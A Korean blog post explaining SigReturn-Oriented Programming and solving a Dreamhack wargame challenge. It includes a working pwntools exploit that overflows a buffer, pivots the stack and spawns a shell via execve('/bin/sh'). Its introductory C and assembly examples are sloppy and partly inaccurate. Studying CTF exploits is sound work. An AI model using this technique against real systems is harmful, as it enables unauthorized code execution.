



## 개요
이번 글은 블로그를 처음 만든 기념으로 테스트 겸 쓴 글이다.<br>
재밋게 봐주길 바란다!

히히
    
## Sigreturn 이란?
일단 `Sigreturn`에 대해서 알기 위해선,<br>
`시그널 핸들러`와 `유저, 커널모드`에 대해서 알아야된다!

일단 `유저 모드란` 현재 프로세스의 메모리만 접근 가능하며,<br>
`현재 프로세스의 권한까지만` 가지고 있는 모드를 뜻한다!<br>
기본적으로 모든 프로세스는 실행될때 `유저 모드`를 기본적으로 가지고 시작한다!

반대로 `커널 모드란` 커널의 권한, 즉 `모든 프로세스의 메모리의 접근권한`과<br>
더불어 `모든 권한을 가지고 있는 모드`를 뜻한다!<br>
이 모드는 `유저가 요청을 보낼 때 잠시 실행되는 모드`로, <br>
어셈블리에서 `Syscall`이나 `시그널`등이 호출될때 사용되는 모드다!<br>
추가로 어셈블리에서 간단히 `인자로 번호와 함께 Syscall만` 실행시켜도<br>
안에서 여러가지 일이 실행되는 이유도 `Syscall을 호출하면 커널모드`로 들어가,<br>
`커널이 특정 일에 관한 동작을` 해줘서 그런거다!

이제 시그널 핸들러에 대해 알아보기 위해, `예시 코드를 확인해보자!`,
```c
#include <stdio.h>
void sig_handler(){
    print("hehe signal called!")
}
int main(void){
    signal(SIGALRM, sig_handler)
    alarm(5);
}
```
`signal()` 함수는 첫번째 인자로 지정된 시그널이 오게되면,<br>
`커널 모드`로 들어가 두번째 인자로 지정된 함수를 실행하는 함수이다.<br>
또한 두번째 인자로 실행되는 함수를 바로 `시그널 핸들러` 라고 한다!

또한, `alram(5)` 함수는 시스템콜로, 5초뒤 `SIGALRM` 시그널을<br>
보내라는 시스템 콜이다.

이제 시그널의 과정을 쭉 풀어서 써보겠다.<br>
일단 alarm 시스콜로 5초가 지난후, `SIGALRM 시그널이 일어나면`,<br>
signal 함수는 `커널 모드로 바꾼 후`, 현재 레지스터의 상태를 그대로 저장해<br>
스택에 저장하게 된다. 이후 `유저 모드로 바꿈과 동시에 signal_handler 함수를 실행`한다<br>
실행이 끝나면, 일반 리턴이 아닌 `시그널 리턴`을 하게 되는데<br>
이땐, `스택에 저장된 레지스터`를 그대로 불러오게 된다.<br>
또한 추가로 시그널 리턴은 `syscall의 15번`으로 정의되어있다

즉, `sig_handler`를 어셈블리로 표현하면 이렇게 된다.
```asm
mov rax, ss:문자열주소
mov rdi, rax
call printf

mov rax, 15
syscall
```

## SROP란?
그래서 `SROP란` Sigreturn Syscall,<br>
즉 `Syscall 15번을 이용해`,<br>
`모든 레지스터를 마음대로 설정하는 기법`을 말한다.

기본적으로 `시그널이 일어날때` 커널 모드로 들어가<br>
`레지스터 상태를 저장하게` 되는데<br>
이때 `커널에 정의된 구조체를 기준으로 스택에 저장`하게 된다<br>
밑에는 바로 그 구조체이다!
```c
struct mcontext_t {
    uint64_t r8;
    uint64_t r9;
    uint64_t r10;
    uint64_t r11;
    uint64_t r12;
    uint64_t r13;
    uint64_t r14;
    uint64_t r15;
    uint64_t rdi;
    uint64_t rsi;
    uint64_t rbp;
    uint64_t rbx;
    uint64_t rdx;
    uint64_t rax;
    uint64_t rcx;
    uint64_t rsp;
    uint64_t rip;
    uint64_t eflags;
    uint16_t cs;
    uint16_t gs;
    uint16_t fs;
};
```

즉, 시그널이 일어나면, `바로 위에 구조체의 형태로 스택 맨위에 저장하게`되고,<br>
나중에 시그널 리턴이 일어나면, `스택에 맨위에서 값을 가져와 레지스터를 설정하는것이다!`

이제 SROP의 시나리오를 짜보면,<br>
스택에 `원하는 인자를 위 구조체의 형태로 저장`하고,<br>
`Syscall로 15번을 호출하게되면`, 간단하게 원하는 인자가 설정될것이다!

## 문제 풀이
이제 실전 문제를 풀어보자!<br>
문제는 드림핵의 [SigReturn-Oriented Programming](https://dreamhack.io/wargame/challenges/364) 문제를 사용하였으니 참고 바란다!

일단 문제 코드를 확인해보면?
```c
#include <unistd.h>

int gadget() {
  asm("pop %rax;"
      "syscall;"
      "ret" );
}

int main()
{
  char buf[16];
  read(0, buf ,1024);
}
```
가젯 함수에선 `시스콜 번호를 조절하고 시스콜을 호출하는 가젯을 삽입`하고,<br>
메인 함수에선 `16바이트 크기의 버퍼를 1024바이트만큼 입력받아 BOF`가 일어나는걸 알 수 있다!

이제 보안 기법을 확인해보면??

놀랍게도 `nx를 제외한 모든 기법이 꺼져`있는걸 알 수 있다!
즉, 마음대로 가젯을 사용할수 있는거시다!

이제 풀이 시나리오를 짜보도록하자!<br>
일단 원하는 시스콜을 호출할 수 있는 가젯이 존재하므로,<br>
`시스콜 15번을 호출하는 가젯`과 <br>
`buf의 맨처음에 앞서 말했던 레지스터 구조체의 형태로 원하는 인자`를 차레대로 써놓고<br>
`rsp`는 `bss의 주소`로, `rax`는 `0`으로, `rip`는 `syscall 주소`로, `rdx`는 `0x100`으로, `rdi`는 `0`으로<br>
바꿈으로써, 좀 더 확실한 bss로 `스택 피보팅을 함`과 동시에 `다시 한번 값을 쓸 수 있게`해서<br>
SROP를 위한 기본세팅을 할 수 있었다!,

이후 다시 입력을 받을땐, <br>
`시스콜 15번을 호출하는 가젯`과 <br>
`buf의 맨처음에 앞서 말했던 레지스터 구조체의 형태로 원하는 인자`를 차례대로 써넣고,<br>
`"/bin/sh\x00" 문자열`까지 써놓은후<br>
`rsp`는 `bss에서 빈공간의 주소`로, `rax`는 `0x3b`로, `rip`는 `syscall 주소`로, `rdi`는 `써놓은 "/bin/sh\x00"주소`를<br>
적음으로써 `execve("/bin/sh")` 가 실행되게 만들 수 있다! <br>
(여기서 rsp를 bss의 빈공간 주소로 바꾸는 이유는 execve가 일어난후 에러가 뜨지 않게 하기 위함이다!)

이제 디버깅을 해보자!<br>
<br>
일단 버퍼의 위치는 RBP-0x10, 즉 RSP 주소와 동일한 위치에 있는걸 알 수 있었다!

이제 페이로드를 작성하기전, 하나 알아가야될 `Pwntools 문법`에 대해서 알아보도록 하자!<br>
일단 기본적으로 앞서 말한 `인자 구조체를 구현하는건 넘무 넘무 귀찮다.` <br>
그래서 Pwntools는 자동으로 `구조체를 만들어주는 함수`가 존재한다!<br>
그거시 바로 `SigreturnFrame()` 이다!! 

아래는 관련 문법이다.
```python
from pwn import *

context.arch = "amd64"
context.kernel = "amd64"

frame = SigreturnFrame()
frame.rdi = 0
frame.rsi = 1
frame.rax = 2
frame.rip = 3
frame.rsp = 4

payload = bytes(frame)
```
위와 같이 `SigreturnFrame 함수를 변수에 넣고`
객체 `요소를 조절`한후 `bytes함수에 인자로 넣어서 사용`하면 된다!

이제 앞서 말한 시나리오중, 스택 피보팅까지만 페이로드를 작성해보도록 하자
```python
from pwn import *
context.arch = 'x86_64'
p = remote('host8.dreamhack.games',15138)
elf = ELF('./srop')

# 관련 주소들 저장
gadget = next(elf.search(asm('pop rax; syscall')))
syscall = next(elf.search(asm('syscall')))
binsh = '/bin/sh\x00'
bss = elf.bss()
frame1 = SigreturnFrame()

# 인자 설정
frame1.rdi = 0
frame1.rsi = bss
frame1.rdx = 0x1000

# 시스콜 설정 (read)
frame1.rax = 0

# 시스콜 호출 및 스택 피보팅
frame1.rip = syscall
frame1.rsp = bss

# 페이로드 작성
payload = b'A'*16
payload += b'B'*8
payload += p64(gadget)
payload += p64(15) 
payload += bytes(frame1)

# 페이로드 전송
p.send(payload)
```

이제 시나리오의 마지막인 `execve`를 작성해보도록 하자!<br>
일단 들어가기전! 인자 설정용 구조체의 크기를 구하도록 하자!<br>
`크기를 구하는 이유`는 직접 날려보며 `동적 분석을 하기엔 너무 귀찮기 때문`에 뒤에서 페이로드를 짤때 시스콜 가젯, 구조체를 모두 적은후,<br>
`"/bin/sh"`를 써 넣고 `그 주소를 인자로 사용`할 것이기에, `bss`와 써넣을 `binsh 문자열`의 `오프셋`을 구하기 위해서 필요하다!

아래는 크기를 구하는 코드이다!
```python
# 코드
from pwn import *
context.arch = 'x86_64'
context.kernel = 'x86_64'
frame = SigreturnFrame()
print(hex(len(bytes(frame))))

# 실행 결과
0xf8
```
즉, Sigreturn의 크기는 `0xf8`이다! <br>
만약 시나리오에서와 같이 페이로드를 짠다면<br>
`syscall 가젯 (8바이트) + 숫자 15 (8바이트) + Sigreturn 구조체 (0xf8 바이트) + binsh 문자열`<br>
순서로 나올것이므로, 결국 "/bin/sh\x00" 문자열의 주소는 bss + 0xf8 + 0x8 + 0x8 이 된다.<br>
즉, "/bin/sh" 문자열은 bss+0x108 주소에 위치하게 된다

이제 페이로드를 작성해보면
```python
from pwn import *
context.arch = 'x86_64'
p = remote('host8.dreamhack.games',15138)
elf = ELF('./srop')

# 관련 주소들 저장
gadget = next(elf.search(asm('pop rax; syscall')))
syscall = next(elf.search(asm('syscall')))
binsh = '/bin/sh\x00'
bss = elf.bss()
frame1 = SigreturnFrame()

# 인자 설정
frame1.rdi = 0
frame1.rsi = bss
frame1.rdx = 0x1000

# 시스콜 설정 (read)
frame1.rax = 0

# 시스콜 호출 및 스택 피보팅
frame1.rip = syscall
frame1.rsp = bss

# 페이로드 작성
payload = b'A'*16
payload += b'B'*8
payload += p64(gadget)
payload += p64(15) 
payload += bytes(frame1)

# 페이로드 전송
p.send(payload)

frame2 = SigreturnFrame()

# 인자 설정 (binsh)
frame2.rdi = bss+0x108

# 시스콜 설정 (execve)
frame2.rax = 0x3b

# 시스콜 호출 및 안전한 스택 주소로 설정
frame2.rip = syscall
frame2.rsp = bss + 0x500

# 페이로드 작성
payload = p64(gadget)
payload += p64(15)
payload += bytes(frame2)
payload += b'/bin/sh\x00'

# 페이로드 전송
p.send(payload)
p.interactive()
```

이제 한번 직접 익스플로잇 해보면?<br>

잘 되는걸 볼 수 있다!